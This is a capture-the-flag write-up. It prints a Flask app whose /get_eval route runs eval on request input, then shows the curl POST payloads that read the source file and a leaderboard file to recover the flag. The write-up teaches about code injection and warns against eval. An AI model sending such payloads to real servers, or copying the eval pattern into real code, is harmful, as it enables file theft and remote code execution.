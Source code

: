 ```yaml
---
title: Playing on the Backcourts
author: AlexanderHOtt
---
```


## Challenge

> yadayada playing tennis like pong yadayada someone's cheating yadayada at
> least the leaderboard is safe!
>
> -- smallfoot

```py title="app_public.py"
from flask import Flask, render_template, request, session, jsonify, send_file
from hashlib import sha256
from os import path as path

app = Flask(__name__)
app.secret_key = 'safe'

leaderboard_path = 'leaderboard.txt'
safetytime = 'csawctf{i_look_different_in_prod}'

@app.route('/')
def index() -> str:
    cookie = request.cookies.get('session')

    if cookie:
        token = cookie.encode('utf-8')
        tokenHash = sha256(token).hexdigest()

        if tokenHash == '25971dadcb50db2303d6a68de14ae4f2d7eb8449ef9b3818bd3fafd052735f3b':
            try:
                with open(leaderboard_path, 'r') as file:
                    lbdata = file.read()

            except FileNotFoundError:
                lbdata = 'Leaderboard file not found'

            except Exception as e:
                lbdata = f'Error: {str(e)}'

            return '<br>'.join(lbdata.split('\n'))

    open('logs.txt', mode='w').close()
    return render_template("index.html")


@app.route('/report')
def report() -> str:
    return render_template("report.html")


@app.route('/clear_logs', methods=['POST'])
def clear_logs() -> Flask.response_class:
    try:
        open('logs.txt', 'w').close()

        return jsonify(status='success')

    except Exception as e:
        return jsonify(status='error', reason=str(e))


@app.route('/submit_logs', methods=['POST'])
def submit_logs() -> Flask.response_class:
    try:
        logs = request.json

        with open('logs.txt', 'a') as logFile:
            for log in logs:
                logFile.write(f"{log['player']} pressed {log['key']}\n")

        return jsonify(status='success')

    except Exception as e:
        return jsonify(status='error', reason=str(e))


@app.route('/get_logs', methods=['GET'])
def get_logs() -> Flask.response_class:
    try:
        if path.exists('logs.txt'):
            return send_file('logs.txt', as_attachment=False)
        else:
            return jsonify(status='error', reason='Log file not found'), 404

    except Exception as e:
        return jsonify(status='error', reason=str(e))


@app.route('/get_moves', methods=['POST'])
def eval_moves() -> Flask.response_class:
    try:
        data = request.json
        reported_player = data['playerName']
        moves = ''
        if path.exists('logs.txt'):
            with open('logs.txt', 'r') as file:
                lines = file.readlines()

                for line in lines:
                    if line.strip():
                        player, key = line.split(' pressed ')
                        if player.strip() == reported_player:
                            moves += key.strip()

        return jsonify(status='success', result=moves)

    except Exception as e:
        return jsonify(status='error', reason=str(e))


@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']

        return jsonify(status='success', result=deep_eval(expr))

    except Exception as e:
        return jsonify(status='error', reason=str(e))


def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr

    return deep_eval(nexpr)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

## Solution

Reading through app_public.py,
`safetytime = 'csawctf{i_look_different_in_prod}'` and the `/get_eval` route
stand out.

```py title="app_public.py"
# ...
@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']

        return jsonify(status='success', result=deep_eval(expr))

    except Exception as e:
        return jsonify(status='error', reason=str(e))


def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr

    return deep_eval(nexpr)
# ...
```

You should _never_ use `exec` or `eval`, especially when the input comes from an
untrusted source (e.g. a POST request).

But because they did, we can curl the endpoint with our code.

```bash
curl -X POST -d '{"expr":"safetytime"}' -H "Content-Type: application/json" https://backcourts.ctf.csaw.io/get_eval
{"result":"csawctf{7h1s_1S_n07_7h3_FL49_y0u_4R3_l00K1n9_f0R}","status":"success"}
```

Well, it could be the key, but it seems to be a distraction.

However, we have code execution. Lets see the actual file that is in production.

```bash
curl -X POST -d '{"expr":"open(__file__).read()"}' -H "Content-Type: application/json" https://backcourts.ctf.csaw.io/get_eval
```

```py title="app_public.py"
# ...
leaderboard_path = 'leaderboard.txt'
safetytime = 'csawctf{7h1s_1S_n07_7h3_FL49_y0u_4R3_l00K1n9_f0R}'
# ...
```

My next guess was to read the leaderboard.txt

```bash
curl -X POST -d '{"expr":"open(leaderboard_path).read()"}' -H "Content-Type: application/json" https://backcourts.ctf.csaw.io/get_eval
{"result":"1.kainzow \n2.wozniak \n3.beastmaster64 \n4.m4y4 \n5.smallfoot \n6.BBLDrizzy \n7.\u00af\\_(\u30c4)_/\u00af \n8.dvorak\n9.csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}\n10.funGuyQiu \n11.bidenJoe","status":"success"}
```

There it is

```
csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}
```
